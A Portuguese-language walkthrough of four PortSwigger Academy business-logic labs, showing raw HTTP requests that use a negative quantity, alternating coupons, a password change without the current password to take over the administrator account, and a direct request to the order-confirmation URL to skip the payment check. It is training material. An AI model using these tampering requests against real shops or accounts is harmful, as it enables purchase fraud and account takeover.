# **Vulnerabilidades de Regra de Negócio | Sonael de A. Angelos Neto**

- ## **Introdução as Vulnerabilidades de Regra de Negócio**

  - ### **O que é?**
    
    São falhas ou lacunas nas políticas, procedimentos e processos de uma empresa que podem ser exploradas de maneira maliciosa ou negligenciada para obter vantagem indevida ou prejudicar a empresa. Essas vulnerabilidades podem incluir coisas como lacunas nos controles internos, falta de treinamento adequado para funcionários, ou falhas na implementação de políticas de segurança. Elas podem ser exploradas por funcionários mal-intencionados ou por hackers externos que tentam infiltrar a empresa. Identificar e corrigir essas vulnerabilidades é importante para proteger a empresa e garantir sua conformidade com as leis e regulamentos aplicáveis.


  - ### **Como podem ser usadas?**

    Existem várias maneiras pelas quais um hacker pode explorar vulnerabilidades nas regras de negócio de uma empresa. Alguns exemplos incluem:

    - Usando a falta de treinamento ou conhecimento dos funcionários sobre segurança para enganá-los e obter acesso não autorizado a sistemas ou dados da empresa.

    - Explorando lacunas nos controles internos da empresa para realizar transações fraudulentas ou apropriar-se de ativos da empresa.

    - Usando a falta de políticas de segurança ou sua implementação inadequada para obter acesso a sistemas ou dados sensíveis da empresa.

    - Usando a confiança dos funcionários em phishing ou outras técnicas de engenharia social para obter informações confidenciais ou acesso não autorizado.

    - Explorando vulnerabilidades conhecidas em sistemas ou aplicativos da empresa para obter acesso não autorizado ou realizar ataques.

---    

  ### Nesse documento, iremos explorar as `"Vulnerabilidades de Regra de Negócio"`, utilizando **4** laboratórios diferentes da [Portswigger Academy](https://portswigger.net/web-security/all-labs), sendo eles:

  - #### ***High-level logic vulnerability.***
  - #### ***Flawed enforcement of business rules.***
  - #### ***Weak isolation on dual-use endpoint.***
  - #### ***Insufficient workflow validation.***


---

### **Ferramentas utilizadas:**

- #### [Burp Suite](https://portswigger.net/burp) :
    - Utilizaremos o `Burp Suite` para interceptar as requisições e analisar o que está sendo enviado para o back-end.

---

## **• High-level logic vulnerability.**

O objetivo desse laboratório é comprar um produto chamado **"Lightweight "l33t" Leather Jacket"** que custa *$1337.00* porém o usuário não possui saldo suficiente para realizar a compra, então temos que conseguir realizar a compra mesmo sem ter saldo suficiente.

Ao enviar um produto para o carrinho de compras e analisar a requisição através do `Burp Suite`, podemos ver que o id do produto é enviado através do parâmetro `productId` e a quantidade é enviada através do parâmetro `quantity`.

```http

POST /cart HTTP/1.1
Host: 0a9d003304f6cce5c038bda00035008a.web-security-academy.net
Cookie: session=DBE0FDA1s1dVoM6nlG4DIiMEmjNloRj6
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: https://0a9d003304f6cce5c038bda00035008a.web-security-academy.net
Referer: https://0a9d003304f6cce5c038bda00035008a.web-security-academy.net/product?productId=2
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

productId=2&redir=PRODUCT&quantity=1

```

Porém o back-end não valida se a quantidade de produtos que o usuário está tentando comprar é um número negativo, então podemos enviar um valor negativo para o parâmetro `quantity`.

Ao trocar o valor do parâmetro `quantity` para `-115` e enviar a requisição, podemos ver que o produto foi adicionado ao carrinho de compras e que  o valor total da compra é de **-$1336.30**.



Agora vamos adicionar o produto **Lightweight "l33t" Leather Jacket** ao carrinho



O valor total da compra é **$0.70** pois o valor do produto é **$1337.00** e o valor negativo que foi adicionado anteriormente foi **-$1336.30**.

Agora vamos finalizar a compra para concluirmos o laboratório.



---

## **• Flawed enforcement of business rules.**

O objetivo desse laboratório é comprar um produto chamado **"Lightweight "l33t" Leather Jacket"** que custa *$1337.00* porém o usuário não possui saldo suficiente para realizar a compra, então temos que conseguir realizar a compra mesmo sem ter saldo suficiente.

O site disponibiliza dois cupons de desconto chamados **NEWCUST5** que você ganha ao entrar no site pela primeira vez e **SIGNUP30** que você ganha ao se cadastrar no newsletter.

porém ao tentar utilizar o mesmo cupom duas vezes, o site retorna uma mensagem de erro dizendo que o cupom já foi utilizado.



Entretanto o site não valida caso o usuário alterne entre os cupons, então podemos utilizar o cupom **NEWCUST5** e depois alterar para o cupom **SIGNUP30** e o site não irá retornar uma mensagem de erro.

Utilizando disso, podemos usar os cupons várias vezes até conseguir que o valor da compra seja zero.



Agora vamos finalizar a compra para concluirmos o laboratório.



---

## **• Weak isolation on dual-use endpoint.**

O objetivo desse laboratório é logar no site como **administrador** e deletar o usuário **carlos**.

Ao logar com o usuário **wiener** e acessar a página **"My account"** encontramos um formulário para alterar a senha da conta.



Ao analisar a requisição através do `Burp Suite`, podemos ver que o o nome do usuário está sendo enviado através do parâmetro `username`, a senha atual está sendo enviada através do parâmetro `current-password` e as novas senhas estão sendo enviadas através dos parâmetros `new-password-1` e `new-password-2`.


```http

POST /my-account/change-password HTTP/1.1
Host: 0a2a004a04fe1b80c346e33e0077008c.web-security-academy.net
Cookie: session=xo1au5j5Ize8YTNUS7ztSp5c1IuCKhak
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 120
Origin: https://0a2a004a04fe1b80c346e33e0077008c.web-security-academy.net
Referer: https://0a2a004a04fe1b80c346e33e0077008c.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

csrf=yBFUcEjv3BNj12JwL35GB8ceMNZKb7vb&username=wiener&current-password=peter&new-password-1=sonael&new-password-2=sonael

```

Porém o back-end não valida se a requisição contém o parâmetro `"current-password"`.

**request** | **response** 
:---------: | :------:
 | 


E podemos usar isso para alterar a senha do usuário `administrador`, logar como `administrador` e deletar o usuário `carlos`.

Para isso temos que enviar uma requisição com o parâmetro `username` igual a `administrador` e os parametros `new-password-1` e `new-password-2` iguais a `sonael`.

```http

POST /my-account/change-password HTTP/1.1
Host: 0a2a004a04fe1b80c346e33e0077008c.web-security-academy.net
Cookie: session=yTKESN6eFVxEBKCGbr4kTyLxlrYjT4nc
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 104
Origin: https://0a2a004a04fe1b80c346e33e0077008c.web-security-academy.net
Referer: https://0a2a004a04fe1b80c346e33e0077008c.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

csrf=sByDr6GPTMqIQGgrLm3g2ODJOa2zgS2w&username=administrator&new-password-1=sonael&new-password-2=sonael

```

Agora vamos logar como `administrador` entrar no **"Admin Panel"**.




E deletar o usuário `carlos` para concluir o laboratório.





---


## **• Insufficient workflow validation.**

O objetivo desse laboratório é comprar um produto chamado **"Lightweight "l33t" Leather Jacket"** que custa *$1337.00* porém o usuário não possui saldo suficiente para realizar a compra, então temos que conseguir realizar a compra mesmo sem ter saldo suficiente.

Para isso vamos logar com o usuário `wiener` e comprar qualquer produto que possamos comprar com os créditos disponíveis.

Ao comprar o produto, podemos ver através do `Burp Suite` a requisição que foi enviada para o back-end.


**request** | **response** 
:---------: | :------:
 | 


A requisição para `/cart/checkout` que verifica se o carrinho não está vazio e o usuário tem saldo suficiente para realizar a compra, após isso redireciona para `/cart/order-confirmation?order-confirmed=true` onde a compra é finalizada.

Para fazermos a compra mesmo sem ter saldo suficiente, basta adicionar o produto que queremos comprar no carrinho e reenviar a requisição para `/cart/order-confirmation` com o parâmetro `order-confirmed` igual a `true`.

```http

GET /cart/order-confirmation?order-confirmed=true HTTP/1.1
Host: 0a0b002103b585e4c97b5c82003a0027.web-security-academy.net
Cookie: session=LDg6zSKvA8XzEtS2eJCEIoiNqTsTKdbh
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0a0b002103b585e4c97b5c82003a0027.web-security-academy.net/cart
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

```

Após isso a compra é finalizada e o laboratório é concluído.



---

## **• Mitigação.**


***Existem várias medidas que uma empresa pode tomar para mitigar vulnerabilidades nas regras de negócio:***

- **Treinamento adequado:** Fornecer treinamento adequado aos funcionários sobre segurança e políticas de segurança da empresa pode ajudar a minimizar o risco de erros humanos que podem levar a vulnerabilidades.

- **Fortalecimento de controles internos:** Implementar e manter controles internos eficazes, como verificações de integridade e verificações de conformidade, pode ajudar a minimizar o risco de exploração das vulnerabilidades nas regras de negócio.

- **Políticas de segurança:** Implementar políticas de segurança eficazes e garantir que todos os funcionários as conheçam e as siga pode ajudar a proteger a empresa de ameaças internas e externas.

- **Proteção de sistemas e dados:** Manter os sistemas e os dados da empresa seguros usando medidas de segurança, como autenticação de dois fatores, criptografia de dados e atualizações de software, pode ajudar a minimizar o risco de acesso não autorizado.

- **Monitoramento e detecção de ameaças:** Monitorar ativamente os sistemas e os dados da empresa para identificar possíveis ameaças e atividades suspeitas pode ajudar a identificar e corrigir vulnerabilidades rapidamente.
---

## **• Dificuldades.**

*Nenhuma dificuldade relevante.*

---

## **• Conclusão.**

*Em conclusão, as vulnerabilidades nas regras de negócio são uma ameaça real para as empresas, pois podem ser exploradas de maneira maliciosa ou negligenciada para obter vantagem indevida ou prejudicar a empresa. No entanto, existem medidas que as empresas podem tomar para minimizar o risco de exploração dessas vulnerabilidades, como fornecer treinamento adequado aos funcionários, fortalecer os controles internos, implementar políticas de segurança eficazes, proteger os sistemas e os dados da empresa, e monitorar ativamente os sistemas e os dados para detectar ameaças. É crucial que as empresas reconheçam essas vulnerabilidades e tomem medidas para corrigi-las, a fim de proteger a si mesmas e garantir a conformidade com as leis e regulamentos aplicáveis.*


---

## **• Referências.**

- [OWASP - Melhores Práticas de Codificação](https://owasp.org/www-pdf-archive/OWASP_SCP_v1.3_pt-BR.pdf)

- [PortSwigger - Business logic](https://portswigger.net/web-security/logic-flaws)

- [OWASP - Business logic vulnerability](https://owasp.org/www-community/vulnerabilities/Business_logic_vulnerability)

- [ChatGPT](https://chat.openai.com/chat)


----

## **• Laboratórios.**

- [High-level logic vulnerability.](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-high-level)

- [Flawed enforcement of business rules.](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-flawed-enforcement-of-business-rules)

- [Weak isolation on dual-use endpoint.](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-weak-isolation-on-dual-use-endpoint)

- [Insufficient workflow validation.](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-insufficient-workflow-validation)